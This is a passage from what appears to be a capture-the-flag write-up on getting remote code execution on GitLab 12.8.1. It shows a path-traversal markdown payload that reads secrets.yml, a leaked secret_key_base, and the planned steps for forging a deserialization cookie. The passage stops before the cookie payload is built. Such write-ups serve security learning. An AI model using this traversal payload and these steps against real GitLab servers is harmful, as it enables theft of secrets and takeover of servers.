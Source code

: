 ```bash
```

### Initial shell - RCE via deserialization attack

Further reading the [HackerOne article](https://hackerone.com/reports/827052), we can find the file-read vulnerability can be turned into RCE when leaking the `secret_key_base` from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`. Using the key, we can create our own cookies that contain a deserialization payload.

In order to get RCE we have to do following steps:

1. Leak secret_key_base using file-read
2. Create a docker-instance of GitLab 12.8.1
3. Load secret_key_base in docker instance
4. Create cookie with RCE payload
5. Replace cookie and login
6. Get code-execution

Let us start by leaking the `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file.

For this we redo the previous steps with this new payload:

```markdown
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

After redoing the steps to get the file, we can extract the secret_key_base:

```bash
root@darkness:~/Downloads# cat secrets.yml | grep secret_key_base
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

Next let us setup a GitLab 12.8.1 docker-instance.

First, let us download the right docker-image.

```bash
root@darkness:~# docker pull gitlab/gitlab-ee:12.8.1-ee.0
fe703b657a32: Pull complete
f9df1fafd224: Pull complete
a645a4b887f9: Pull complete
57db7fe0b522: Pull complete
b957f7604ce6: Pull complete
eec7830dd64f: Pull complete
f27723c14c7f: Pull complete
a96eab330bb8: Pull complete
9ccefb9c0a5d: Pull complete
e9e891db4b74: Pull complete
Digest: sha256:dbc399cb6bc84650a683f6f95e299a4b3af9c6b3adfada7aafdc60eb2e222ab3
Status: Downloaded newer image for gitlab/gitlab-ee:12.8.1-ee.0
docker.io/gitlab/gitlab-ee:12.8.1-ee.0
```

Next let us startup a docker-container, let it install and execute a shell in the container.
